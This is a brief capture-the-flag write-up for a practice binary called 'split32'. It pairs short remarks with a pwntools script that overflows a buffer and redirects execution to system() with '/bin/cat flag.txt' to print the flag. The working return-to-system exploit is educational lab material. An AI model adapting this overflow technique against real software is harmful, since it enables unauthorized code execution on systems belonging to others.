

the binary gives us the "system" function



meanwhile, theres a "cat flag.txt" string somewhere in the binary 

so all we have to do is call the system with "cat flag" as an argument

```
#!/usr/bin/python3
from pwn import *

context.arch="amd64"
context.os="linux"
context.log_level="debug"
context.binary=exe=ELF("./split32")

script='''
b*pwnme+77
b*usefulFunction+9
c
'''

# p=gdb.debug(exe.path, cwd=".", gdbscript=script)
p=process(exe.path, cwd=".")

catflag=next(exe.search("/bin/cat flag.txt"))
system=0x0804861a
buffer=0x2c*b"A"

payload=flat(
    buffer,
    system,
    catflag
)

p.recvuntil(">")
p.send(payload)

p.interactive()
```